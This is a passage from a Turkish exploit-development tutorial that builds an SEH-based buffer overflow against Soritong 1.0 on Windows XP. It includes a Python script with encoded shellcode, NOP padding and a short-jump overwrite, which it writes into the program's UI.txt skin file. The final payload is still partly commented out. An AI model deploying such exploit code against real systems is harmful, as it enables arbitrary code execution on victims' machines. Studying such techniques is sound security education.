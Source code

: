 Şimdi buraya kadar anlaşıldı sanırım. Kaç karakter atlamamız gerektiğini hesaplayalım. `SE Handler` 4 byte uzunluğunda. Bizim yazdığımız jump işleminin yanında da 2 byte'lık işimize yaramayan `NOP`'lar vardı. Yani toplamda 6 byte'lık bir sıçrama yapmamız yeterli olacaktır.

```python
# Soritong 1.0 SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"\x90"*584
nextSEH = b"\xeb\x06\x90\x90" # jump 6 byte
SEH = b"CCCC"

exploit = padding + nextSEH #+ SEH + calc

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Geriye sadece `SEH` için `rop rop ret` işlemi bulmak kaldı. Ama öncesinde `SE Handler` fonksiyonu çalıştığı zaman kaç argüman alıyor ve bu argümanlara ne yazıyor bakalım.
